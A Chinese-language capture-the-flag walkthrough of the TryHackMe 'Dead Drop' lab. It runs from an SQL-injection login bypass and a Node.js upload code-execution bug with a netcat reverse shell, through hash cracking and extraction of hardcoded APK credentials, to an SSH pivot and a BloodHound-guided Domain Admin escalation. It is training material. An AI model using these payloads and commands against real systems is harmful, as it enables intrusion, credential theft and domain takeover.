# Dead Drop

> 🚩 **Dead Drop** — TryHackMe
>
> [👉 点击进入靶场房间](https://tryhackme.com/room/dead-drop)
>
---

## 设想
DeadDrop Ltd 的文件共享应用程序是您的起点。通过仔细的枚举和利用，您可以找到访问域控制器所需的一切。以下每个问题都标志着攻击链中的一个节点。

## 概括
>[!note]- 概括
> 在 Dead Drop 攻击中，我们一开始的网络可见性有限，只能访问位于 192.168.11.200 的 DeadDrop Ltd 文件共享主机，而其后方的另外两台主机（192.168.11.51 和 192.168.11.100）则无法访问。使用 rustscan 进行初始枚举后，我们发现了 SSH 连接和一个 Web 应用程序，并通过简单的 SQL 注入（`admin' AND 1=1 -- -`）绕过了登录门户，以管理员身份进行身份验证，从而获得了对控制面板的访问权限。通过上传js文件，获取控制面板，我们捕获到了一个属于 `svc-drop` 的 `NetNTLMv2` 哈希值。
>
>使用 john 和 rockyou 字典破解哈希值，得到有效的凭据，我们利用这些凭据以 svc-drop 身份在目标主机上获取 SSH 立足点。在主目录下，一个 backup 文件夹包含 deaddrop-mobile.apk 文件，我们使用 scp 将其导出到攻击者机器，并使用 jadx 进行反编译。通过 grep 搜索反编译后的 Java 源代码，我们发现 Config.java 中存在硬编码的凭据，从而暴露了 j.harris 的域帐户。
>
>为了从攻击主机访问内部网络，我们使用`ssh 1080`来进行配置。我们探测位于 `192.168.11.100` 的域控制器，使用 `NetExec` 验证 `j.harris` 的 `SMB` 凭据，之后为 `DEADDROP-DC.deaddrop.loc` 生成 `hosts` 文件条目，然后并运行 `bloodhound-python` 枚举域，而AttackBox上的版本问题，导致DNS容易超时，我们需要将bloodhound-python进行降级。
>
>BloodHound 分析显示， `j.harris` 拥有对 `ITSupport-Admins` 组的 AddMember 权限，而 `ITSupport-Admins` 组本身又嵌套在 Domain Admins 内，从而形成了一条直接的权限提升路径。我们使用 `net` 将 `j.harris` 添加到 `ITSupport-Admins` ，使其立即获得域管理员权限。最终的 NetExec 检查确认了管理员访问权限，我们使用`nxc`查看最终的 flag。

## 侦察
网络上有三台主机可用，其中只有 `192.168.11.200` 可供我们访问。我们可能需要将其用作跳转主机，以便访问主机 `192.168.11.51` 和 `192.168.11.100` 。

使用 `rustscan -b 500 -a 192.168.11.200 --top -- -sC -sV -Pn` 枚举目标机器上的所有 TCP 端口，并将发现的结果通过管道传递给 Nmap，Nmap 运行默认的 NSE 脚本 `-sC` 、服务和版本检测 `-sV` 。并将主机视为在线，预防防火墙配置了`ICMP`禁止`ping`规则，使用了`-Pn`就能强制端口扫描。

`500` 的批量大小可以兼顾速度和稳定性，默认的 `1500` 可以平衡两者，而更大的批量大小可以提高吞吐量，但会增加丢失响应和不稳定的风险
```bash
rustscan -b 500 -a 192.168.11.200 --top -- -sC -sV -Pn
```


在目标主机上，我们有 SSH 服务（端口 22）和 Web 服务器（端口 80）


## 以管理员身份登录
我们访问地址为 `192.168.11.200` 首页，然后被重定向到 /login 页面。我们现在看到的是登录页面。


我们可以使用简单的 SQL 注入绕过登录验证。首先，我们尝试一个风险较低的版本，使用 AND 并猜测用户名。
经过简单尝试，进入到`dashboard`界面
```bash
admin' AND 1=1 -- -
```


我们来到终端，简单创建三个普通文件来判断有效荷载。


通过上传文件后发现，仅有`js`返回了{}，那我们就可以采取下一步措施来注入试试


编辑`test.js`，用`.`来查看当前页面
```bash
const fs = require('fs');
module.exports = fs.readdirSync('.');
```

上传文件后，浏览器接收了我们的注入，说明可行


我们尝试查看id
```bash
const cp = require('child_process');
module.exports = {
    user: cp.execSync('whoami').toString(),
    id: cp.execSync('id').toString()
};
```

结果返回的是一个用户`node`


接下来尝试反向shell，输入以下命令
```bash
const { execSync } = require('child_process');

throw new Error(execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip 4444 >/tmp/f').toString());
```
我们在终端启动Penelope工具进行监听


没过一会我们就收到来自node的连接


查看`backup`我们发现用户`svc-drop`，以及一些哈希值


将哈希值保存到本地`hash.txt`里然后用`john`进行爆破，差不多10分钟出结果


## 以 svc-drop 身份访问ssh

我们测试了凭据，并尝试通过 `SSH` 登录到 `Web` 服务器，登录成功。在用户主目录中，我们找到了一个 backup 目录。
```bash
ssh svc-drop@192.168.11.200
```


## 以 j.harris 身份访问
在`backup`目录里发现`deaddrop-mobile.apk`文件

`.apk` 是用于在 Android 设备上分发和安装应用程序的文件格式。它本质上是一个 ZIP 压缩包，其中包含应用程序的编译代码、资源、资产和清单文件。要检查 `deaddrop-mobile.apk` ，我们可以使用 `jadx`，这是一个反编译器，可以将 Dalvik 字节码转换回可读的 Java 源代码，从而可以分析应用程序的逻辑、硬编码的密钥和 API 端点。

### 提取凭证
但首先，我们需要将 APK 文件下载到我们的机器上，我们使用`scp`下载目标机上的文件，在这之前需要查看目标机子的当前目录



接下来，我们在目标设备上运行以下命令。输入密码后稍等片刻，`APK` 文件就会出现在我们的设备上。

```bash
scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk .
```


现在我们可以使用 `jadx` 反编译 `apk` 文件了


我们寻找相关资质，并找到了一些。
```bash
grep -ir password
```
经发现在`Config.java`里发现了密码


仔细观察，便可发现是 `j.harris` 的资历。


### proxychains设置
我们在`/etc/hosts`文件下添加以下条目
```bash
192.168.11.100     DEADDROP-DC.deaddrop.loc deaddrop.loc DEADDROP-DC
```
把`/etc/proxychains.conf`里的`socks4`改为`1080`


启动ssh动态端口转发（建立SCOKS5代理隧道）
```bash
ssh -f -D 1080 svc-drop@192.168.11.200 -N
```
进行端口扫描发现域名
```bash
proxychains nmap -Pn -T4 -sT -p 389,636 --script ldap-rootdse 192.168.11.100
```


知道域名后，测试链接性
```bash
proxychains nxc smb 192.168.11.100 -d deaddrop.loc -u 'j.harris' -p 'REDACTED'
```


看到`Pwn3d!`说明已经获得域的权限，接下来查看共享文件

发现`ADMIN$` , `C$`拥有读写权限，接下来我们用BloodHound 枚举域

## BloodHound 枚举
在tryhackme里用bloodhound-python，容易因`DNS`超时而链接失败
```bash
proxychains bloodhound-python -u 'j.harris' -p 'REDACTED' -d deaddrop.loc -dc DEADDROP-DC.deaddrop.loc -ns 192.168.11.100 -c All --zip --dns-tcp
```


输入以下指令进行版本降级
```bash
/usr/local/pyenv/versions/3.8.20/bin/pip install --force-reinstall 'bloodhound==1.7.2'
```
短暂等待后重新输入上步指令，等待返回`20260812154813_bloodhound.zip`文件


启动`Neo4j`服务，打开BloodHound，输入以下命令
```bash
JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64 neo4j-admin set-initial-password 'neo4j'
```
```bash
JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64 neo4j start
```
将文件进行上传，查看组成员，我们发现DOMAIN ADMIN 在域上，理论上我们可以把成员直接添加到域管理员上

而我们又发现`ITSUPPORT-ADMINS`属于`DOMAIN ADMINS`，所以我们可以把用户`j.harris`,添加到`ITSUPPORT-ADMINS`里，从而获取到域管理员权限。

```bash
proxychains net -dc-ip 192.168.11.100 -target-ip 192.168.11.100 'deaddrop.loc/j.harris:REDACTED@DEADDROP-DC.deaddrop.loc' group -name "ITSupport-Admins" -join j.harris
```
添加后输入以下命令即可查看flag
```bash
proxychains nxc smb 192.168.11.100 -d deaddrop.loc -u 'j.harris' -p 'DropsOfJupiter2026!' -x 'type C:\Users\Administrator\Desktop\flag.txt'
```
